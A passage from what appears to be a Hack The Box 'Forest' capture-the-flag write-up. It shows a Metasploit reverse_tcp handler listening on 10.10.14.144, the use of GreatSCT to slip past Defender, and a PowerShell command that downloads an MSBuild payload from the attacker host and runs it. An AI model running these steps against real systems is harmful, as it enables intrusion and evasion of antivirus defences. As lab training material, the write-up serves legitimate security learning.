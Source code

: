 ```aaa
PS htb\svc-alfresco@FOREST Documents> Invoke-BloodHound
PS htb\svc-alfresco@FOREST Documents> 
```

One way to bypass this issue is ditching evil-winrm altogether in favor of a better shell, such as a Metasploit session (although a simple nc shell would have probably worked as well).

Because plain Meterpreter payloads are flagged instantly by Defender I used [GreatSCT](https://github.com/GreatSCT/GreatSCT) to generate an MSBuild payload (more info on the full process [here](https://offsecdeer.gitlab.io/post/htb-writeup-arkham/#getting-root---the-real-mens-way-uac-bypass)).

Start up the Meterpreter listener with the resource file given to us by GreatSCT:

```aaa
┌─[baud@parrot]─[~/HTB/forest]
└──╼ $msfconsole -r forest.rc
[-] ***rting the Metasploit Framework console...\
[-] * WARNING: No database support: No database YAML file
[-] ***
                                                  
IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v5.0.53-dev                          ]
+ -- --=[ 1932 exploits - 1079 auxiliary - 331 post       ]
+ -- --=[ 556 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

[*] Processing forest.rc for ERB directives.
resource (forest.rc)> use exploit/multi/handler
resource (forest.rc)> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
resource (forest.rc)> set LHOST 10.10.14.144
LHOST => 10.10.14.144
resource (forest.rc)> set LPORT 4444
LPORT => 4444
resource (forest.rc)> set ExitOnSession false
ExitOnSession => false
resource (forest.rc)> exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
```

Back in the evil-winrm shell download the XML payload and feed it to MSBuild:

```aaa
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> iwr "http://10.10.14.144:9090/forest.xml" -outfile "./man.xml"
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe man.xml
Microsoft (R) Build Engine version 4.6.1586.0
[Microsoft .NET Framework, version 4.0.30319.42000]
Copyright (C) Microsoft Corporation. All rights reserved.

Build started 12/6/2019 4:46:57 PM.
```
